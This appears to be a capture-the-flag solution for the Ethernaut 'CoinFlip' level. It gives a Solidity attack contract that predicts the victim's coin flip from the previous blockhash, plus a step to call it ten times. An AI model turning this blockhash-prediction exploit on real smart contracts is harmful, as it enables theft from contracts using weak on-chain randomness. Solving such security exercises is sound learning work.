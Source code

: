 ```shell
pragma solidity 0.5.0;

import "./CoinFlip.sol";

contract CoinFlipAttack {

    CoinFlip public victimContract;
    uint256 constant FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _victimAddress) public {
        victimContract = CoinFlip(_victimAddress);
    }

    function flip() public returns(bool) {
        uint256 blockVal = uint256(blockhash(block.number - 1));
        uint256 coinFlip = uint256(blockVal/FACTOR);
        bool side = coinFlip == 1 ? true: false;
        victimContract.flip(side);
    }
}
```

## Hack: 

Deploy w/ ethernaut victim contract instance address in constructor and call flip 10 times.